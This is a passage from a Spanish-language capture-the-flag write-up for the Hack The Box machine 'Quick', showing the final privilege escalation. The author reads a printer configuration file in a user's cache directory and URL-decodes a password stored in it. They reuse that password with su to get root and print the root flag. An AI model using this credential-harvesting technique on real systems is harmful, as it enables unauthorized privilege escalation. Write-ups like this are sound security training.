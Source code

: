 ```bash
27 updates are security updates.


Last login: Fri Mar 20 05:56:02 2020 from 172.16.118.129
srvadm@quick:~$ whoami
srvadm
```

Dentro los dos directios del usuario `srvadm`, encontramos un archivo de configuración y al leerlo encontramos unas credenciales.

```bash
srvadm@quick:~/.cache$ find .
.
./conf.d
./conf.d/printers.conf
./conf.d/cupsd.conf
./logs
./logs/debug.log
./logs/error.log
./logs/cups.log
./packages
./motd.legal-displayed
srvadm@quick:~/.cache$ cat ./conf.d/printers.conf
MakeModel KONICA MINOLTA C554SeriesPS(P)
DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
State Idle
```

Si ahora lo urldecodeamos para verlo mejor obtenemos unas nuevas credenciales que corresponden al usuario `root`.


```bash
❯ php --interactive
Interactive mode enabled

php > echo urldecode("MakeModel KONICA MINOLTA C554SeriesPS(P)
php " DeviceURI https://srvadm%40quick.htb:%26ftQ4K3SGde8%3F@printerv3.quick.htb/printer
php " State Idle");
MakeModel KONICA MINOLTA C554SeriesPS(P)
DeviceURI https://srvadm@quick.htb:&ftQ4K3SGde8?@printerv3.quick.htb/printer
State Idle
```

Lo unico que tenemos que hacer ahora es dirigirnos al directorio del usuario `root` y visualizar la segunda flag `root.txt`.

```bash
srvadm@quick:~/.cache$ su root
Password: 
root@quick:/home/srvadm/.cache# whoami
root
root@quick:/home/srvadm/.cache# cd /root/
root@quick:~# cat root.txt 
914fef2cca09448887142468da0f2136
```

Maquina bastante guapa! 😃



